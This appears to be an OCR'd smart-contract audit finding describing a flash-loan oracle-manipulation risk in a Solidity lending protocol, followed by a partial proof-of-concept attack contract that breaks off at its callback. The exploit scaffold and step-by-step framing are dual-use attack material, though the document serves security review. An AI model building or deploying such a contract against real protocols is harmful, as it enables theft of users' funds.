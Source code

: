 **Vulnerable Code Snippet:**
```solidity
// Line 24: test/contracts/mcp-dydx/contracts/protocol/Getters.sol
import { IPriceOracle } from "./interfaces/IPriceOracle.sol";

// Line 226: Function definition
function getMarketPriceOracle(

// Line 231: Return type
returns (IPriceOracle)
```

**Root Cause Analysis:**
1. **Single Oracle Dependency**: Contracts rely on single price oracle without redundancy
2. **No Price Deviation Checks**: Missing validation for price movements beyond reasonable thresholds
3. **No Time-Weighted Average**: Instant price updates enable flash loan manipulation
4. **Missing Circuit Breakers**: No emergency pause mechanisms for anomalous price data

#### Proof of Concept Exploit

**Attack Scenario**: Flash Loan Oracle Price Manipulation

**Prerequisites:**
- Flash loan provider access (AAVE, dYdX, Compound)
- MEV bot infrastructure
- Market making capital ($100K-$1M)
- Basic understanding of oracle mechanics

**Step-by-Step Exploitation:**

```solidity
pragma solidity ^0.8.0;

contract OortOracleExploit {
    address public immutable oortProtocol;
    address public immutable targetOracle;
    address public immutable flashLoanProvider;

    // STEP 1: Initialize attack contract
    constructor(address _oort, address _oracle, address _flashProvider) {
        oortProtocol = _oort;
        targetOracle = _oracle;
        flashLoanProvider = _flashProvider;
    }

    // STEP 2: Execute flash loan attack
    function executeOracleManipulation(
        address targetAsset,
        uint256 flashAmount,
        bytes calldata targetCallData
    ) external {
        // Record original price for verification
        uint256 originalPrice = IPriceOracle(targetOracle).getLatestPrice();

        // Initiate flash loan with encoded attack parameters
        IFlashLoanProvider(flashLoanProvider).flashLoan(
            targetAsset,
            flashAmount,
            abi.encode(originalPrice, targetCallData)
        );
    }

    // STEP 3: Flash loan callback - execute manipulation
    function onFlashLoan(
        address asset,
```